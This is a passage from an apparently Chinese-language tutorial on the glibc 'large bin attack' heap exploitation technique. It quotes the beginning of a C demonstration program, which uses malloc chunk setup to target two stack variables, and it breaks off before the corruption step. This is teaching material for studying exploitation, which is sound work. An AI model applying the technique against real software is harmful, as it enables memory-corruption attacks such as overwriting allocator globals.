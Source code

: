 这个是通过利用large bin的插入逻辑漏洞来完成攻击。这段代码主要目的是更改stack_var1和stack_var2的值。代码开头的注释提供来源码的逻辑：

```c
/*

    This technique is taken from
    https://dangokyo.me/2018/04/07/a-revisit-to-large-bin-in-glibc/

    [...]

              else
              {
                  victim->fd_nextsize = fwd;
                  victim->bk_nextsize = fwd->bk_nextsize;
                  fwd->bk_nextsize = victim;
                  victim->bk_nextsize->fd_nextsize = victim;
              }
              bck = fwd->bk;

    [...]

    mark_bin (av, victim_index);
    victim->bk = bck;
    victim->fd = fwd;
    fwd->bk = victim;
    bck->fd = victim;

    For more details on how large-bins are handled and sorted by ptmalloc,
    please check the Background section in the aforementioned link.

    [...]

 */

#include<stdio.h>
#include<stdlib.h>
#include<assert.h>
 
int main()
{
    fprintf(stderr, "This file demonstrates large bin attack by writing a large unsigned long value into stack\n");
    fprintf(stderr, "In practice, large bin attack is generally prepared for further attacks, such as rewriting the "
           "global variable global_max_fast in libc for further fastbin attack\n\n");

    unsigned long stack_var1 = 0;
    unsigned long stack_var2 = 0;

    fprintf(stderr, "Let's first look at the targets we want to rewrite on stack:\n");
    fprintf(stderr, "stack_var1 (%p): %ld\n", &stack_var1, stack_var1);
    fprintf(stderr, "stack_var2 (%p): %ld\n\n", &stack_var2, stack_var2);

    unsigned long *p1 = malloc(0x420);
    fprintf(stderr, "Now, we allocate the first large chunk on the heap at: %p\n", p1 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
           " the first large chunk during the free()\n\n");
    malloc(0x20);

    unsigned long *p2 = malloc(0x500);
    fprintf(stderr, "Then, we allocate the second large chunk on the heap at: %p\n", p2 - 2);

```